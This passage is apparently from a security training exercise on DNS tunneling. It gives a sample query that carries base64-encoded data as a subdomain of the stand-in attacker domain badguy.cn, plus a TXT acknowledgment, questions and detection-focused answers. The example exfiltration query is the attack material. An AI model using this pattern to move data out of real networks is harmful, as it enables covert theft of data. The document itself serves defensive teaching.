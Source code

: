 ```
query: b2xhdGtleWluZm8xLm1hbHdhcmUudmljdGltLnhtcGF5LmV4ZmlsLmRhdGE.badguy.cn
```

The response contains encoded strings like:

```
TXT "ACK: chunk 3 received"
```

**Answer the following questions**:

1. What is likely happening on this machine?
2. Why would an attacker choose DNS as their communication channel?
3. What makes TXT records useful for exfiltration?
4. How can security teams detect and block this kind of activity?
5. How would DNSSEC or DoH affect such tunneling?


<div cursor="pointer" class="collapsible">Show Answer</div>
<div class="content_answer">
  <p>
    The machine is likely infected with malware that is using DNS tunneling to exfiltrate data or communicate with a command-and-control server. The queries encode data (possibly in base64) into the subdomains of a domain controlled by the attacker.
  </p>

  <p>
    DNS is often not filtered as strictly as HTTP or SMTP traffic, especially on internal networks. It also works even in locked-down environments where other outbound protocols are blocked. This makes it an attractive covert channel for attackers.
  </p>

  <p>
    TXT records can hold arbitrary strings and are a legitimate part of the DNS protocol (e.g., for SPF). Since they’re often overlooked by security appliances, they can be abused to carry commands or receive acknowledgments from malicious servers.
  </p>

  <p>
    Security teams can detect this activity by monitoring DNS logs for unusually long domain names, high volumes of TXT queries, or queries to domains known to be untrustworthy. DNS rate limiting, blacklisting suspicious domains, and inspecting query content for encoded data can also help.
  </p>

  <p>
    DNSSEC would not stop tunneling, since it focuses on authenticity, not content filtering. However, DNS over HTTPS (DoH) can make it harder for security teams to inspect DNS traffic, as it encrypts queries. In such cases, endpoint monitoring becomes more important.
  </p>
</div>



